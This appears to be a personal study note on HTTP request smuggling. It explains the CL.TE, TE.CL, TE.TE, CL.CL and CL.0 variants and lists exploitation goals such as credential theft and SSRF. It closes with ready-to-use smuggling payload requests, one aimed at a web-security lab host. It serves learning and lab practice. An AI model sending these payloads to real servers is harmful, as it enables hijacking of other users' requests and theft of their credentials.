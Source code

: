 # HTTP Request Smuggling





###### notes:
- 	- possible behaviours to use to exploit request smuggling:
		- steal users credentials via post/get request
		- SSRF by bypassing the frontend 
		- bypassing frontend access control
		- turn on-site redirect to open redirect
- - Smuggling  via CRLF occur when the backend treat `\n` as header delimiter and the frontend doesn't.
	- e.g: `Foo: bar\nTransfer-Encoding: chunked`
- request smuggling arise when using both of those headers:
```http
GET / HTTP/1.1
Content-Length: 20
Tranfer-Encoding: chunked
```
- #### when request smuggling arise?
	-   CL.TE: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
		```
		POST / HTTP/1.1 
		Host: vulnerable-website.com
		Content-Length: 13 
		Transfer-Encoding: chunked 
		
		0
		
		SMUGGLED
		```
	-   TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
		  ```
		  POST / HTTP/1.1 
		  Host: vulnerable-website.com 
		  Content-Length: 3 
		  Transfer-Encoding: chunked 
		  
		  8 
		  SMUGGLED 
		  0
	
		```
	-   TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.![[Transfer-Encoding smuggling.png]]
	- CL.CL: 
	  ![[Request smuggling CE.CE.png]]
  - CL.0: occur when the endpoint doesn't expect POST request, and end the request at last header, by sending two single grouped requests that included arbitrary body


###### payloads for faster investigating:
-  CL.TE
```http
POST / HTTP/1.1
Host: 0ab00093044028c5c0ce443300050094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x


```
- TE.CL
```HTTP
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0


```
- CL.0
```HTTP
POST /vulnerable-endpoint
HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/1.1
Host: vulnerable-website.com


```